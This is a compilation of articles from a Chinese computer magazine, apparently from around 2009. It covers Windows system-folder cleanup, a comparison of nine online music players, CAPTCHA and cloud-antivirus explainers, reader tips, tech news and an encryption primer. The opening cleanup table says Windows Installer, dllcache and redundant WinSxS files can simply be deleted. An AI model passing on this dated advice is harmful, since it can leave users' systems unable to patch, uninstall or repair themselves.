由于系统对系统目录采用的严格的权限保护，删除前一定要取得目录的完全读取权限。删除的原则是保留最新版本的数据，删除旧版本的同名数据即可。比如上述例子中，删除前一个文件即可。注意的是，WinSxS中存贮的都是重要系统文件，删除时必须认真查看文件名，只有存在冗余的才能删。

实际上，系统中很多目录都会随着更新不断变大，为此文中最后列举一些常见系统目录以及该目录的作用，方便大家有选择地进行减肥（见表）。

（文/漂在外）

| 目录名称以及位置                       | 用途                                                                 | 删除方法                                                                                                                               |
| -------------------------------------- | -------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------- |
| \WINDOWS\Installer                     | 使用Windows Installer技术制作的安装程序会在Installer目录里面添加一个备份的安装文件用于今后的配置、补丁安装等操作 | 直接删除                                                                                                                               |
| \WINDOWS\Driver Cache                  | 系统驱动文件备份                                                     | 如果系统已经安装所有硬件并运行正常即可删除                                                                                             |
| 类似WINDOWS\$NtServicePackUninstall... | 系统补丁文件备份，用于卸载补丁                                       | 补丁升级完成即可删除                                                                                                                   |
| \WINDOWS\system32\dllcache             | 重要系统文件备份，用于系统保护                                       | 酌情删除，需要在PE下删除，但是如果以后如果系统文件丢失就需要插入光盘恢复                                                               |

# 真正海选 九款在线听歌软件比高下

对比几年前，我们的听歌习惯发生了很大变化，再也不是先下载然后播放的模式了。直接打开听歌软件，想听什么歌，即点即得，而且歌词也不用管，自动匹配。同时我们也在为五花八门的播放软件发愁，用这个还是用那个呢？最好用的是谁呢？

## 毋庸置疑的测试平台

本次评测为同平台下对比测试，配置单如下：
CPU: Intel Core T7400 @ 2.16GHz 内存: DDR2 667 2GB 主板: Intel 945GM 显卡: GeForce 7400 硬盘类型: SATA 7200 RPM，软件环境上我们使用安装了所有补丁的Windows XP pro SP3，网络环境：1M ADSL

## 客观公正的评测队伍

本次评测更加注重了参与性和互动性，先由CFan论坛网友投票选出最关心的软件功能，然后由《电脑爱好者》全体软件编辑和热心读者共同完成测试，保证了测试结果的公正。

## 实用为主的评测理念

秉承“实用至上”的准则，我们打破软件的枯燥功能对比，从我们对在线听歌的需求出发，选用了几个常用的实例，选用最常用、最流行的歌曲搜索，最贴近的歌词对比，最细致的音乐质量分析，并用量化的数据进行对比。

## 我们的测试对象

- 一听音乐盒1.60 http://musicbox.1ting.com/?index
- 搜狗音乐盒 1.3 http://mbox.sogou.com/
- 酷我音乐盒2.4.2 http://mbox.kuwo.cn/
- 酷狗音乐2008 http://www.kugou.com/
- QQ音乐2009 http://music.qq.com/
- 千千静听5.5.2 http://ttplayer.qianqian.com/
- 随乐空间 2.1版 http://www.myleyuan.com/download.html
- 有道音乐盒 便捷版1.0 http://mp3.youdao.com/desktop/
- 亦歌桌面版 2.1.0.2 http://sites.google.com/site/1g1gdesktop/

## 才艺展示

### 一听音乐盒

安装时会提示设置媒体库存放位置和软件安装目录，有可选择的首页修改项，软件界面清爽，只是搜索框设置在最下面，输入框偏小。软件提供了独特的互动方式，设立了“电台”功能，提供网友在线K歌平台。支持添加本地歌曲、本地文件夹、URL地址来添加歌曲。时，可以显示歌词、支持搜索换歌词、支持添加本地文件、本地目录来添加歌曲。

### 搜狗音乐盒

安装中未提示媒体库存放位置，右侧的音乐库分类细致、明确，带有“随身听”功能，可以将播放列表中的歌曲复制到移动数码设备上。具有歌曲同类推荐功能，单击“推荐”软件会推荐一些与当前播放歌曲风格相似的歌曲。支持添加本地文件、本地目录、URL地址来添加歌曲，歌词搜索需要切换回歌词窗口。

### 酷我音乐盒

安装无插件，连开机启动都不是默认开启。软件默认开启的是MV模式界面，可以在皮肤中选择“分拆皮肤”进入歌曲播放模式，与其他在线播放器的使用感受就一样了。播放音乐时，可以观看MV或将自己照片文件夹设置成幻灯片显示。当软件切换到迷你模式时，可以显示歌词、支持搜索换歌词、支持添加本地文件、本地目录来添加歌曲。

### 酷狗音乐2008

安装中包含可选择的酷狗游戏（网页游戏）的快捷方式添加，初次启动会根据是否联网来选择“本地使用”还是“联网使用”，与手机结合较密切，搜索歌曲时支持作为彩铃发送到手机，具有手机铃声制作功能，并支持将歌曲复制到移动数码设备中。支持添加本地文件、本地目录来添加歌曲。

### QQ音乐2009

安装中提示关联本地音乐文件，提示选择软件皮肤，音乐库默认打开（可选择下次不弹出），皮肤上延续了QQ的风格，提供底纹样式、6个皮肤5个底纹，需要QQ账号登录，并提供了绿钻专享服务器。在随便听听中，单击“换歌”会更换推荐的列表，播放中会弹出音乐咨询窗口，桌面歌词调整功能丰富。支持添加本地文件、本地目录、URL地址来添加歌曲。

### 千千静听

安装中包含可选择的“百度工具栏”安装。界面进行了全新设计，在原来丰富的音乐处理功能上，网络增加了“纠错”功能，用户可将搜索到的歌曲问题反馈给软件提供商。具有歌词、视觉全屏显示功能。

### 随乐空间

安装中有可选择的“百度工具条”安装，首次运行会提示添加本地音乐。提供了特色的看图模式，界面只显示专辑封面和桌面歌词，在全功能界面模式下没有桌面歌词，桌面歌词功能较简单，无搜索和速度调整，切换到全功能模式下才能进行调整。本地音乐管理支持自动全盘搜索和智能整理、智能推荐功能。支持添加本地文件、本地目录，支持iphone、iTunes数据同步。

### 有道音乐盒

安装无插件，搜索过后需要先勾选再单击加入播放列表，无法双击播放，稍显不方便。界面清爽，在左侧有“个性化推荐、随便听听”和排行榜等榜单推荐。对当前推荐榜单不满意，可以选择“换几首”来更换列表。

| 功能对比 | 桌面歌词 | 支持网络电台 | 支持榜单 | 支持随便听听 | 歌曲同步播放 | 本地媒体库管理 | 迷你模式切换 | 皮肤更换 | 软件及文字广告 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 一听音乐盒 | 无 | 无 | 是 | 否 | 否 | 是 | 是 | 是5 | 无 |
| 搜狗音乐盒 | 是 | 是 | 是 | 否 | 是 | 是 | 是 | 是5 | 无 |
| 酷我音乐盒 | 是 | 否 | 是 | 是 | 是 | 是 | 是 | 是7 | 是 |
| 酷狗音乐2008 | 是 | 是 | 是 | 是 | 否 | 是 | 是 | 否只可换颜色 | 是 |
| QQ音乐2009 | 是 | 否 | 是 | 是 | 否 | 是 | 是 | 是3 | 无 |
| 千千静听 | 是 | 是 | 是 | 是 | 否 | 是 | 否 | 是8(可下载) | 无 |
| 随乐空间 | 是 | 否 | 是 | 否 | 是 | 是 | 是 | 否5种颜色更换 | 无 |
| 有道音乐盒 | 无 | 是 | 是 | 是 | 否 | 否 | 否 | 否 | 无 |
| 亦歌桌面版 | 无 | 否 | 否 | 是 | 否 | 否 | 否 | 否 | 无 |

## 任务考验

### 任务一 基本听歌需求

根据论坛调查，大家最关心的还是能不能找到需要的歌曲，我们就来搜搜看。为了保证结果的公正，应该选用大家最常搜索的歌曲，所以我们选用了谷歌2009年8月11日17时发布的歌曲搜索排行榜的前10首歌曲：《在那遥远的地方》、《爱你爱的好疲惫》、《在心里从此永远有个你》、《爱不能做主》、《暗香》、《nobody》、《姑娘我爱你》、《一个人的屋顶》、《不离不弃》、《海阔天空》，并对比各软件在播放《在那遥远的地方》的网络下载速度和资源占用，选手具体表现如表2。

> > 小提示：
> 在歌曲搜索结果中，最全面的是搜狗音乐盒，会给出歌曲文件大小、人气、码率的提示，其次是酷狗音乐盒，有大小和人气提示，酷我音乐盒只有人气提示。其他的软件都无文件质量的提示。

| 软件 | 搜索到数量 | 搜索便捷性 | 资源占用(内存加虚拟内存) | 最大连接速度(播放第一首歌) |
| :--- | :--- | :--- | :--- | :--- |
| 一听音乐盒 | 10 | 无候选提示 | 26MB | X |
| 搜狗音乐盒 | 10 | 有候选提示 | 46MB | 11MB/S |
| 酷我音乐盒 | 10 | 有候选提示 | 80MB | 200KB/S |
| 酷狗音乐2008 | 10 | 有候选提示 | 108MB | 113KB/S |
| QQ音乐2009 | 10 | 无候选提示 | 88MB | 80KB/S |
| 千千静听 | 10 | 无候选提示 | 42MB | 24KB/S |
| 随乐空间 | 10 | 无候选提示 | 46MB | 172KB/S |
| 有道音乐盒 | 10 | 无候选提示 | 99MB | 184KB/S |
| 亦歌桌面版 | 8 | 有候选提示 | 153MB | 226KB/S |

### 任务二 新歌体验

音乐播放的第二大需求就是歌词了，搜索的歌曲能不能尽快匹配歌词呢？最有代表性的就是新歌了。这里我们选择了4首新歌：《愚人的国度》（孙燕姿）、《我叫小沈阳》（小沈阳）、《狮子座》（曾轶可）、《想知道现在你好不好》（范玮琪），用9个软件分别搜索看其歌词匹配程度以及缓冲时间。

| 软件 | 愚人的国度 | | | 我叫小沈阳 | | | 狮子座 | | | 想知道现在你好不好 | | |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| | 搜索结果 | 缓冲 | 歌词自动匹配 | 搜索结果 | 缓冲 | 歌词自动匹配 | 搜索结果 | 缓冲 | 歌词自动匹配 | 搜索结果 | 缓冲 | 歌词自动匹配 |
| 一听音乐盒 | 无 | 无 | 否 | 有 | 2秒 | 否 | 有 | 0秒 | 否 | 有 | 0秒 | 否 |
| 搜狗音乐盒 | 有 | 1秒 | 是 | 有 | 0秒 | 是 | 有 | 1秒 | 是 | 有 | 0秒 | 是 |
| 酷我音乐盒 | 有 | 1秒 | 是 | 有 | 2秒 | 是 | 有 | 2秒 | 是 | 有 | 1秒 | 是 |
| 酷狗音乐2008 | 有 | 3秒 | 需手动 | 有 | 3秒 | 是 | 有 | 0秒 | 是 | 有 | 0秒 | 是 |
| QQ音乐2009 | 有 | 2秒 | 否 | 有 | 1秒 | 是 | 有 | 8秒 | 否 | 有 | 0秒 | 是 |
| 千千静听 | 有 | 连接不上 | 否 | 有 | 2秒 | 是 | 无 | 无 | 无 | 有 | 0秒 | 是 |
| 随乐空间 | 无 | 无 | 否 | 有 | 0秒 | 是 | 无 | 无 | 无 | 有 | 0秒 | 是 |
| 有道音乐盒 | 无 | 无 | 否 | 有 | 2秒 | 是 | 有 | 0秒 | 否 | 无 | 无 | 否 |
| 亦歌桌面版 | 有 | 2秒 | 无法匹配 | 有 | 1秒 | 无法匹配 | 有 | 1秒 | 无法匹配 | 无 | 无 | 无 |

### 任务三 卡拉OK欣赏

见表3，现在桌面歌词几乎成了软件的必备功能，而且都带了卡拉OK功能，那么他们的歌词真正匹配功能如何呢？我们搜索周杰伦的《七里香》和韩晶的《谢谢你》，按照软件自动匹配的歌词进行对比测试。见表4。

| 软件 | 七里香 | 谢谢你 | 歌词调整功能 |
| :--- | :--- | :--- | :--- |
| 一听音乐盒 | 搜索出现问题 | 搜索出现问题 | 无法控制 |
| 搜狗音乐盒 | 同步慢2秒，通过歌词调整选项调整好，搜索后只有一个备选 | 同步慢2.5秒，区是歌词本身匹配问题，调整后依然不合适，有一个备选 | 丰富 |
| 酷我音乐盒 | 匹配较好，只有毫秒级的微差，用鼠标滚动方式可调整好，搜索歌词有5个备选 | 匹配的歌词慢1秒，重新搜索只有一个歌词备选，鼠标滚轮调整，但受限于歌词本身，没有调整好。 | 丰富 |
| 酷狗音乐2008 | 匹配较好，只要毫秒级的微差；搜索后有10个备选，而且有网又对歌词的评分来帮助我们选择歌词 | 同步有1秒延迟，通过歌词调整选项可以调整好，搜索后有10个备选 | 丰富 |
| QQ音乐2009 | 有0.5秒超前，可调整好，搜索可以有7个备选 | 无此歌 | 丰富 |
| 千千静听 | 有0.5秒延迟，通过歌词调整可调整好，搜索有一个备选（播放出现不流畅的情况） | 无此歌 | 非常丰富 |
| 随乐空间 | 同步延迟1秒左右，搜索后有两个备选 | 无此歌 | 较丰富 |
| 有道音乐盒 | 无卡拉OK模式，整句匹配0.5秒延后，无法调整歌词 | 无卡拉OK模式，整句匹配1秒延后无法调整歌词 | 无法控制 |
| 亦歌桌面版 | 无卡拉OK模式，整句匹配良好 | 无此歌 | 无法控制 |

## 终极PK

为了完善地对比9款软件的优劣，最后我们来挑挑软件的缺点。见表5。

| 软件 | 缺点 |
| :--- | :--- |
| 一听音乐盒 | 软件算是比较简单的听歌软件，功能相对较少，资源尚少；歌词匹配和歌词控制是弱项。 |
| 搜狗音乐盒 | 在歌词资源和歌词的同步还不完善，桌面歌词控制项少，不支持随便听听模式。 |
| 酷我音乐盒 | 分拆模式下皮肤只有一个，没有加入网络电台，缺少与数码设备的结合功能。 |
| 酷狗音乐2008 | 搜索结果中的浮动广告有些影响视觉，不支持同类歌曲推荐。 |
| QQ音乐2009 | 歌曲资源和歌词同步功能较弱。 |
| 千千静听 | 对在线音乐的支持不是很好，链接速度较慢。 |
| 随乐空间 | 全界面模式下不支持桌面歌词，界面元素不可分，歌曲资源略少。 |
| 有道音乐盒 | 控制项太少，歌词不支持卡拉OK模式，歌曲资源少。 |
| 亦歌桌面版 | 只适合随便听歌需求，控制项太少，歌词不支持卡拉OK模式，歌曲资源少，资源占用较大。 |

## 研究院测试报告

在整个评测中我们可以看到，在基本功能上搜狗音乐盒已经超过了老一辈选手，对于听歌需求不太高的人来说它是最佳的选择。酷我音乐盒分拆模式的加入将自身的地位提高了一大截，加上丰富的歌曲推荐和其他软件望尘莫及的MV资源，足以让它具备最优秀软件的实力，只是目前歌词的同步上还不完美。酷狗音乐盒在如今对比来看，功能只能算是中规中矩，不过歌词资源的丰富让它在歌词的体验上优势突出，凭借这个优势，酷狗音乐2008摘得本期“编辑选择奖”桂冠。

千千静听虽然支持在线听歌，但连接速度和资源丰富性上还需进一步加强。而QQ音乐2009和随乐空间在功能上还需进一步完善才能在软件中体现优势，有道音乐盒、亦歌桌面版还只能保持在单一特色领域。

# 是人还是机器？——一个验证码的判定

“验证码”这种几乎每次进行什么注册或者登录的操作时都会蹦出来的东西，我们似乎已经很习惯于顺手把它填上了。那么，到底“验证码”是个什么东西？我们又为什么总要花上那几秒钟去认出那几个歪歪斜斜的字符呢？

“验证码”有一个很唬人的名字——CAPTCHA(Completely Automated Public Turing test to tell Computers and Humans Apart的缩写，意思是全自动区分计算机和人类的图灵测试)。先别被这么个名字吓坏，其实“验证码”存在的目的就是为了让坐在电脑屏幕前的你“亮明身份”：我是一个活生生的人，而不是一行行冷冰冰的计算机代码。

验证码的出现完全是各个网站的无奈之举。随着垃圾邮件、恶意注册和病毒不断影响我们的安全，甚至研究出了使用计算机程序在各种网站上注册账号或者发布垃圾信息的“省力方法”。如果没有CAPTCHA出现的话，一段程序很短时间内就能注册成功成千上万个账号，我们现在恐怕早就被淹没在垃圾邮件的海洋中了。

现在常见的验证码没有什么大的分别，都是由网站中的程序自动生成一些扭曲的字符，在背景上添加不同的颜色梯度，让活生生的人能够轻松地识别出字符，但是让试图骗过的计算机却不知所措。OCR（光学字符识别）技术对于标准工整的字符（尤其是英文）可以有很高的识别率，但是对于CAPTCHA使用的扭曲的字符就很难认清，主要是因为扭曲的字符和五颜六色的背景会让程序难以对单个的字符进行“分割（segmentation）”，自然也就没办法通过网站的审核了。

当然，没有一种CAPTCHA是绝对安全的，即便是像Google或者Yahoo等使用的公认相当安全的CAPTCHA也仍然不能保证没有新的恶意程序可以攻破它们，但越是安全的CAPTCHA往往却也让活人越难以辨认，在安全性（程序难以认出）以及易用性（人类容易认出）之间取得一个平衡往往是很难的。为了防止恶意程序有空可钻，网站上的“验证码”往往都还有一定的时效性，所以下次你要是填错了信息重新回到登录页面，可千万别忘了刷新验证码重新填写啊。

(天津/冯珊珊)

# 日久见真招 用历史讲述“云安全”

“云安全”已经从热门词汇转变为大家实际在应用的技术，大家对云安全的认识也逐步加深。很多人简单地认为它只是收集样本方法的改进，也有人将其与“云计算”归为一类，苛求数据在服务器端的运算。“云安全”究竟为何物呢？日久见真招！我们就从瑞星实施一周年的“云安全”出发来深入解析下这个名词。

# 一个木马的“云安全”之旅

要理解“云安全”，就让我们亲自感受下这个模式。一个恶意程序——小马悄悄在黑客手里诞生，并被植入在一个网站上。一天，一个使用瑞星的人访问了这个网站。

小马感觉到机会来了，就利用系统漏洞，侵入了这个人的电脑。小马已经沉默了好久，这次还不尽情折腾下啊！它盘算着自己的活动：修改注册表以实现自己随机启动、在系统目录下释放个驱动级文件、修改下系统时间等。

但在另一方面，这台计算机上的瑞星卡卡已经看到了小马的进入，但并没有对它作出什么举动，而是将它的信息上传到了瑞星的智能分析服务器。服务器利用虚拟机技术，模拟了一个真实的运行环境，对小马的代码进行解析，很快，服务器看到了外表伪装下的小马的木马身份，并提取出了小马的特征码。服务器把小马的特征码返回给所有的客户端，告诉瑞星安全软件，这是一个木马文件，马上拦截。小马还没动，就被捕了，而且小马的其他兄弟也在同一时间被瑞星安全软件杀掉，可怜的小马，这次云安全之旅仅有几十秒。

# 技术的成熟 2.0的跨越

随着“云安全”系统的稳定运行，一些创新的想法被加入进来。工程师们首先想到的是：现在的木马病毒，90%以上是通过挂马网站侵入用户电脑的，而这些木马在入侵之前，通常会在浏览器层面做一些特定的动作，如利用浏览器插件调用本机可执行程序，或者非法访问本机资源。瑞星研发团队成功研制了“基于行为特征的浏览器防挂马技术”，只要木马病毒表现出了恶意行为，则该技术会即刻发出警报，阻止用户访问挂马网站。在阻拦挂马网站的同时，还会把恶意网址上传到服务器，服务器进行分析处理后，分享给所有的“云安全”客户端。这就是所谓的“浏览器防挂马技术”。这个技术在2008年12月被加入到瑞星“云安全”系统之中，“云安全”也就升级到了2.0。该技术的运用，使得“云安全”系统的技术水平达到了一个新的高度，每天拦截的挂马网站攻击次数，达到了每天1000万人次的水平。采用该技术之后，木马病毒在企图入侵之时就会被瑞星拦截，所以大大降低了用户“感染木马后再查杀”的风险。

# 理想与现实碰撞出的模式

在“云安全”建立伊始，曾经有两种技术思路的争论：一种是“搜索引擎云安全”，这种模式认为，既然用户受到的安全威胁来自互联网，基本局限于网页、邮件、互联网文件这三种途径。那就把互联网上的这三种东西都标上安全等级，用网页爬虫去搜索网页，发现恶意代码就标上不安全，如果用户企图访问这个网页，我就返回结果阻止。邮件和文件也这样做，理论上可以阻止网络上的所有攻击。但从目前“云安全”的实际运行来看，这种模式遇到了不可克服的困难。互联网上的资源过于庞大，依靠现有技术条件，任何一家商业公司都无法对互联网上所有文件实时标注安全信息，并存储在数据库里供用户进行安全查询。由此可见，“搜索引擎云安全”没有改变防御系统的模式，只不过是更多地利用了网络技术，并没有发挥互联网共享协作的巨大优势，本质上还是单机防毒的思路。

而瑞星采用的是后一种模式，建立一个“超级服务器集群”，把所有的互联网用户都连接起来，其中一个受到攻击，则服务器收到其上传的信息之后，把分析结果返回给网络中的所有用户。这样无论出现多少种网络威胁，只要最初遭到攻击的客户端及时上报信息，经过服务器的分析处理，返回结果之后，整个网络可以在最短时间内获取对该攻击的免疫能力。每个客户端既从服务器“索取”防护信息，又“贡献”自己监测到的网络威胁信息。是真正互联网化的杀毒软件。这种模式主要功能放在服务器端，客户端只要连接到服务器，就可以获取最新的功能。因此安装在用户电脑上的杀毒软件体积更小，杀毒能力更强，可以最大限度减少对用户电脑资源的消耗。这也改变了反病毒工程师的工作内容，从手工分析病毒到“人工+机器智能”，处理效率更高。实时分析海量客户端上报的攻击信息，可以让工程师提前预测到互联网的安全变化，从而提前做好相应的防范。

## 查找被占用的电话号码(2)

原题重现:在Excel中快速查找集团网号码以61到69开头的电话

这个题目用Excel实现步骤可能比较繁琐,我总觉得用Access更简单. 具体操作如下:
第一步: 新建一个Access数据库文件:号码表.mdb
第二步: 在对象"表"界面点击"新建→链接表",将现有的集团号码分配表Excel格式分配数据,以链接表的形式导入数据库,表的名称为"集团号码分配表". 链接表的好处是只要把原始的Excel数据更改,数据库自动更新.
第三步: 点击对象"查询", 双击"在设计视图中创建查询",在出现的对话框选择"集团号码分配表→添加",点击菜单栏"查询→生成表查询",给表命名为"待选号码→确定".
现在"查询1"对话框上半部分有一个集团号码分配表所有列标题的列表,双击"集团号码"、"使用人"和其他认为有必要的列标题,这些列将组成待选号码的内容.
光标点击"集团号码"的"条件"框, 输入Like "*" & [号码] & "*" ,其中"*"是通配符, 含义是包含所输入号码的所有号码, 光标点击"使用人"的"条件"框, 输入Is Null, 含义是该记录为空, 即号码没有分配.
最后存盘,将该查询起名"查询可用号码",关闭,数据库完成.
当使用查询功能时, 点击对象"查询", 双击刚才创建的"查询可用号码", 出现一个"输入参数值"对话框, 输入想要查找的号码, 如61, 按照屏幕提示点击确定即可.
点击对象"表", 有一个刚生成的"待选号码", 双击打开, 就是我们要查询的结果.
小编点评: 不错的方法, 而且小郑同学还把他使用的实验数据共享给了我们, 注意因为是链接表, 在Access要更改一下路径才能正常使用. 下载地址: http://www.newhua.com/cfan/200917/hmb.rar. 只是这个方法不是纯用Excel解决, 所以扣下10积分.
挑战者:西安/郑志刚

## Web邮件附件保存法

原题重现:统一管理Web邮件附件

这个问题赤手空拳是解决不了的, 但是借助于专业的电子邮件客户端软件想实现还是挺简单的. 下面用一款国产全中文免费无插件的软件"梦幻快车(DreamMail)"来解决轻松这个问题.
第一步: 从官方网站下载DreamMail最新版本http://www.dreammail.org/download.html, 安装并设置好邮箱账号.
第二步: 进入DreamMail后需稍等片刻, 这段时间会自动收取邮件. 这时你可以设置一下, 点击"工具"在打开下拉菜单选中最下面的"选项", 在弹出的"选项"框中点击左下角的"切换到豪华版本", 返回主界面窗口后, 当已收邮件数不再变化时就可以在接下来的步骤中批量下载你想下的任意附件了.
第三步: 在已收邮件列表中选取你想下载附件的邮件, 用Shift和Ctrl键可以多选了.
第四步: 点击工具菜单栏中的"邮件", 在下拉菜单中选"附件→导出附件(对多个选中的邮件有效)", 然后选择保存位置即可.
因为题目中要求是批量保存选中邮件的附件, 所以选择使用DreamMail软件, 如果对邮件本身不做要求而只是在批量下载选中的附件, 那么Foxmail 更简单方便一些, 这里也一并做一下简单说明吧.
首先到http://fox.foxmail.com.cn下载最新的Foxmail6.5正式版.
接着进入Foxmail界面后要手动收取邮件, 收取完成后点击菜单栏中的"工具", 在下拉菜单中选"附件管理", 在弹出对话框中右侧会列出你的邮箱中所有邮件的附件文件.
小编点评: 难道就没方法直接管理吗?
挑战者:后天

## 快速启动到系统(2)

原题重现:超快速8秒内进入系统
电脑启动顺序是: 按下电源按钮, 机器加电→BIOS自检, 即POST过程→加载系统所需驱动, 即滚动条状态→最后初始化桌面, 即是自己的个性化设置.
其中, 涉及到加电、BIOS、硬盘、系统、驱动和软件等方面, 也和电脑自身配置有关系, 当然每个阶段都需要一定时间去处理. 如果某一阶段出现点问题, 那就需要额外的耐心去等待了.
一般说来, 一个纯净的系统+必需的驱动能在40s左右到桌面就算是正常了, 再加上一些自启动程序, 或者是什么杀毒软件之类的, 那启动时间就更长了. 当然, 如果想要缩短启动时间, 那就需要对系统、对硬盘、BIOS动手了, 虽然启动速度能有所提升, 但稳定性却有所下降, 这不是我们想要的.
其实, 系统自带的功能也可以实现更快的启动, 那就是"休眠".
"休眠"从电源管理上, 同关机各个状态一样, 却有飞一般的恢复速度, 因为"休眠"能启动到桌面, 并且保留有你上次进入"休眠"时的状态, 实在是居家必备之常识、省电省时之良策. 那么, "休眠"该如何实现呢? 请往下看:

- Windows XP系统
右击桌面空白处, 选择"属性"项, 然后选择"屏幕保护程序", 点击"电源"选项, 选择"休眠"标签, 选中"启用休眠"的方框, 最后选择"应用", "休眠"功能就开启了.
如果想要密码保护的话, 可在"电源→高级"项里, 选中"在计算机从待机状态恢复时, 提示输入密码", 这样就会在进入桌面时, 出现用户登录界面.
开启了休眠功能, 并不等于进入休眠状态, 接下来介绍如何进入休眠: 在桌面按Alt+F4, 按住Shift键后, "休眠"图标就会出现.

- Vista系统
Vista系统默认已经开启了"休眠"功能, 知道怎么做了吧.
如果没有"休眠"选项或为灰色, 则进行如下操作: "开始→控制面板→电源选项/电源管理器".
出现"优化了电源"、"节能程序"和"高性能", 根据你所选择的模式, 点击"更改计划设置", 在弹出窗口选择"更改高级电源设置", 展开"睡眠"项, 将"允许混合睡眠"全部设置为"关闭"即可打开"休眠".
挑战者: peak wang

## 不同程序使用不同输入法

原题重现:不同程序使用不同输入法
顺着小编的思路试验了一下, 较快地找到了解决方案, 即: 先为各输入法设置不同的快捷键, 再编写两个批处理文件, 分别对应于傲游和Authorware程序.

第一步: 为不同输入法设置不同快捷键
由于Windows XP 对自带的输入法快捷键设置限制很多, 只能使用Ctrl (或Alt) +Shift+数字键, 非常繁琐, 好在我们还有IME Tool (下载地址: http://www.onlinedown.net/soft/37684.htm), 使用它可以较为自由地设置各种快捷键, 运行软件, 选中某输入法, 单击"热键"按钮, 分别设置搜狗拼音输入法、搜狗五笔输入法的快捷键为Alt+1和Alt+2.

第二步: 为不同的程序编写类似的批处理文件
以Authorware为例, 使用文本编辑器输入以下代码, 另存为Authorware.bat, 放在桌面上备用.
假定Authorware程序安装在D:\Program Files\Authorware中.

```
rem 打开指定程序
cd D:\Program Files\Authorware
start Authorware.exe
rem 切换到指定的输入法
echo wscript.sleep 1000>%temp%.vbs
echo set wshell=WScript.CreateObject("WScript.Shell")>>%temp%.vbs
echo wshell.SendKeys "%{1}">>%temp%.vbs
start %temp%.vbs
rem 退出
exit
```

这是一个批处理文件, 共分为两部分. 第一部分的作用是打开指定程序, 即Authorware; 第二部分的作用是切换到搜狗拼音输入法. 第一部分比较简单易懂, 重点介绍一下第二部分: 这四行语句是一段VBS代码, 起作用的主要是第三行: echo wshell.SendKeys "%{1}">>%temp%.vbs, 即模拟键盘输入Alt+1以便切换到搜狗拼音输入法, %{1}的意思是在按住Alt不松开的同时按下1, 以此类推, 如果需要切换至搜狗五笔输入法, 可以直接将"%{1}"改为"%{2}".
依此思路, 再编写一个傲游.bat, 如果有更多的程序需要, 编写更多的BAT放在桌面上, 直接双击它们就可以实现打开不同程序时切换不同的输入法了.

小提示:
如果不喜欢Alt, 也可以使用Shift或Ctrl, 不过要注意它们对应的按键代码分别为+和^.
挑战者: 山东省枣庄市职业中专/孙洁

## NEW TECH IT新技术

### High Stability LED Chip (高稳定性LED芯片)

近日, 由扬州大学物理学院承担的江苏省科技攻关项目——大功率高亮度LED芯片取得重要进展. 首批试制样品已上线接受1000小时的性能测试. 这款由我国自主研发的新光源芯片, 将用于替代国外同类产品. 据课题负责人扬大物理学院曾祥华教授介绍, 他们对国产芯片的结构进行了重新设计, 着力解决发热量大、衰减快等稳定性问题, 以提高其使用寿命.
曾祥华表示, 目前首批新型芯片样品已经试制成功, 并已经获得3项国家专利, 经过1000小时连续带电测试后, 研究人员还将对细节进行改进, 新芯片的稳定使用寿命约能提高到5万小时以上.

### High-Efficiency Fingerprint Identification (高效指纹鉴别技术)

最近, 英国Warwick大学的科学家发明了一种新的指纹鉴别技术, 这种技术只需数秒钟便能从数百万个指纹中找到相符合的指纹. 该技术能根据指印的整体尺寸和位置对指印进行调节, 将其调节至标准尺寸和位置, 如此便解决了指印变形的问题. 然后科学家们再将该标准指印投影到由指纹库中的各种标准指纹图形叠加起来的图案中去, 最后根据指纹图案的叠加情况选出最符合的指纹, 而无需进行逐一比对. 这种技术非常精细有效, 甚至可以对指纹上的毛孔位置进行比对, 而过去的指纹识别技术则由于存在指印变形的问题而无法进行这种精度级别的比对.

### Software of Mobile-Phone Shopping (手机购物软件)

日前, 亚马逊推出了一个面向iPhone手机的购物客户端工具, 用户可以登录自己的亚马逊账号查询商品、阅读评论, 并且将商品加入自己的购物清单. 利用这一工具, 用户只需一部iPhone就可以随时随地购物. 这一工具最精彩的功能要数"亚马逊记忆", 如今许多消费者已经养成"在超市浏览商品、在网店购买"的习惯, 网民在逛实体超市时, 如果看到中意的商品, 可以用iPhone对其拍照, 然后将照片上传到亚马逊的服务器, 系统将对商品进行识别, 然后返回亚马逊同一商品的链接以及价格, 如果没有相同商品, 则将给消费者推荐类似的网售商品.

## 加密就像做游戏 你来摆我来猜

小王是某机关单位职员，业余时间喜欢上网，刚开始是频繁出入网吧，后来自己攒了台机器，于是泡在网上时间更多了。和同事们不同，喜欢动脑筋的他上网不是去游戏消磨时光，而是对各类技术抱有浓厚的兴趣，尤其是对神奇的密码更是乐此不彼，从知之甚少到了痴迷的程度，很多故事也由此发生。

### “密码”不等于加密

小王最近研究起了加密软件，他一直想弄明白，加密软件是怎么给自己的文件加密的？哪款软件更安全？放心不下，赶紧跑去图书馆，门口遇到图书馆的学者，图书馆的老师告诉他，所谓的加密软件都是这么工作的（以加密算法明确、单文件加密为例）：
首先，加密软件通常会选择一种或几种加密算法，用具体的编程语言将算法实现。用户使用加密软件时，软件会让用户设置一个密码，此密码用于解密时对操作者进行身份验证，只有输入了正确密码，才会成功进行解密。用户设置的密码通常还会参与密钥的创建。软件调用具体的算法实现程序，使用上一步骤创建的密钥对要加密的文件进行加密，把要加密的文件和密钥作为输入，以加密算法为变换规则（具体加密算法实现过程详见下文）对要加密的文件进行加密变换，得到加密后的文件。而解密是加密的逆过程。

### 黑？白？猜对了就给你

听了学者的介绍，小王越来越感到其中的乐趣。原来自己设置的密码只是一个身份验证，真正起加密作用是加密算法和完整的密钥，那么算法又是怎么回事呢？小王打算对隐藏在机制后面的算法做个更深入的了解，看了好多书，终于有所了解。
很多人都明白，在计算机里，信息最终都是以一个个二进制“位”来表示，“位”有1和0两种状态，可以理解成黑、白两种颜色的小球，黑白小球排列顺序不同就代表不同的信息，其中8个连续的小球一组，代表一个完整的信息，称为“字节”，可表示英文字母、符号和数字，汉字在计算机里以连续16个小球来表示，称为“双字节”。加密本质上就是通过对这些小球按某种规则，把某些位置上的黑球变为白球，或改变小球的排列顺序，来隐藏小球队列表示的原始信息。而“规则”就是加密算法。解密是这个过程的反过程：把被换过颜色的小球换回来，把排乱的顺序重排正确。
